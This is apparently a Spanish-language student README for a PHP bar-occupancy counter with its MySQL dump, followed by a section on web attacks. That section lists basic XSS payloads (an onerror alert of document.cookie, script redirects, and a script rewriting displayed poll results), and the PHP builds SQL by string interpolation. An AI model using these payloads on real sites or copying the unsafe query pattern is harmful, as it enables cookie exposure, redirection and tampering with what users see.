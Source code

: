 # EL SALVA BARES

#### Vamos a crear un PHP, el cual nos contará el numero de personas que entran o salen en un bar dandole a Incrementar o Reducir (POR LA PROBLEMÁTICA DEL AFORO MÁXIMO DE LOS BARES)

Los datos se guardarán en una base de datos a la que hemos llamado p017, la tabla se llama personas y el campo (int) Numero:


```powershell
<?php
		$operacion = isset($_GET['operacion'])? $_GET["operacion"]: "";
	
	$var = "datos.ini";
		$base = parse_ini_file($var);		
		$php = new PDO($base["baseDeDatos"],$base["usuario"],$base["password"]);
		
		$con = $php->prepare("SELECT * from personas;");
		$con->execute();
		$registros = $con->fetchAll(PDO::FETCH_NUM);
		$numer = $registros[0][0];
		
	if($operacion == "incrementar")
	{
		$num = (int) $numer + 1;
		$top = $php->prepare("Update `personas` set Numero='$num' where Numero='$numer';");
		$top->execute();
	}
	elseif($operacion == "reducir")
	{
		$num = (int) $numer - 1;
		$top = $php->prepare("Update `personas` set Numero='$num' where Numero='$numer';");
		$top->execute();
	}	
	else
	{
		$num = (int) $numer;
	}
?>

<!DOCTYPE html>
<html>
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type">
<style type="text/css">
  .boton_personalizado{
    text-decoration: none;
    padding: 10px;
    font-weight: 600;
    font-size: 20px;
    color: #ffffff;
    background-color: #1883ba;
    border-radius: 6px;
    border: 2px solid #0016b0;
  }
  .boton_personalizado:hover{
    color: #1883ba;
    background-color: #ffffff;
  }
  </style>
<title>P017</title>
</head>
<body>
	<div id="pagina">
		<form action="./personasbar2.php" method="get">
			<p>
				<label>Número</label>   
				<input type="text" name="numero" value="<?php echo "$num"; ?>" maxlength="5" readonly="readonly"/>
			</p>
			<p>
				<input class="boton_personalizado" type="submit" name="operacion" value="incrementar"/>
			</p>
			<p>
				<input class="boton_personalizado" type="submit" name="operacion" value="reducir"/>
			</p>
		</form>
	</div>
</body>
</html>
```


## BASE DE DATOS

```powershell
SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
SET AUTOCOMMIT = 0;
START TRANSACTION;
SET time_zone = "+00:00";


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;

--
-- Base de datos: `p017`
--

-- --------------------------------------------------------

--
-- Estructura de tabla para la tabla `personas`
--

CREATE TABLE `personas` (
  `Numero` int(11) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;

--
-- Volcado de datos para la tabla `personas`
--

INSERT INTO `personas` (`Numero`) VALUES
(4),
(4);
COMMIT;

/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;

```

-----------------------------------------------------------
## ATAQUES XSS

Podemos aumentar desde la barra de direcciones con la siguiente ruta:
http://localhost/personasbar2.php?numero=&operacion=incrementar
Podemos reducir desde la barra de direcciones con la siguiente ruta:
http://localhost/personasbar2.php?numero=&operacion=reducir

Editando el HTML eliminando el apartado "READONLY" podremos escribir en el interior de la celda, pero tambien deberiamos aumentar el tamaño de caracteres que acepta (maxlength).


---------------------------------------------------

## Otros ataques

#### XSS reflejado
Inyectamos el código:
```powershell
- <img src="/" onerror="alert(‘cadena')">
- <img src="/" onerror="alert(document.cookie)">
- <button type="button" onclick="alert(0)">Click me!</button>
- <button type="button" onclick="window.location.href = 'https://www.google.com/'">Click me!</button>
```
#### XSS persistente o almacenado
Es muy común en muchos sitios web que pidan votaciones para ver qué le parece mejor al cliente. En este caso inyectaremos simplemente el código 
```powershell
- <script>alert("XSS stored")</script>
```

#### XSS persistente o almacenado
Con este tipo de ataque conseguiremos que siempre se ejecute nuestro script, por lo que podemos obtener información de la web, de los usuarios, redirigir a otra web, …
Ejemplo:
```powershell
- <script>window.location.href = "https://www.google.com.com/";</script>
```
Incluso modificar la opinión de las personas
Ejemplo:
```powershell
- <script>document.getElementById("results").rows[0].cells[1].innerText = “TU OPINION HA CAMBIADO“</script>
```

